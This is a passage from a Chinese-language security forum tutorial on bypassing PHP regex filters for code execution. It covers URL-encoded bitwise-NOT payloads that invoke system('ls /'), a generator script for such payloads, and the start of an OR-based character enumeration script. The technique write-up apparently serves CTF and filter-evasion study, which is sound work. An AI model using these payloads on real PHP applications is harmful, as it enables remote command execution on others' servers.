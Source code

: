 太强了，属实是把PHP玩明白了。

#### URL 编码取反绕过

刚才我们介绍的是通过取反汉字来得到我们想要的字母，我们还可以直接对一串恶意代码进行取反然后 URL 编码，在发送 Payload 的时候再次将其取反便可将代码还原，然后将其动态执行。并且，因为是取反，基本上用的都是不可见字符，所以不会触发到正则表达式。

假设我们要构造一个`phpinfo();`，由于因为没有过滤括号，所以只需要先取反再编码字符串 "phpinfo" 就行了：

```php
echo urlencode(~'phpinfo');
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b1e6cb79b1d74fd74e9ace6630ab4fff3844430a.png)

然后再补上括号等就可以代码执行了，`phpinfo()`是没有参数的，如果需要执行有参数的函数的话，比如`system('ls /');`，则应分别对其中的字符进行编码：

```php
(~%8F%97%8F%96%91%99%90)();    // phpinfo();
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);  //system(ls /);
```

抄whoami神一个脚本

```php
<?php
//在命令行中运行

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d381906cce50707f9c12842a8425bb6150cdabed.png)

#### 或

P牛师傅没玩这个，他位运算玩腻了，这个其实和勤勉的异或和取反一样，都是基于PHP再位运算中的特性形成的特点。

```python
<?php

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9a-z]/i';    //根据题目给的正则表达式修改即可
if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
    echo "";
}else{
    $a='%'.$hex_i;
    $b='%'.$hex_j;
```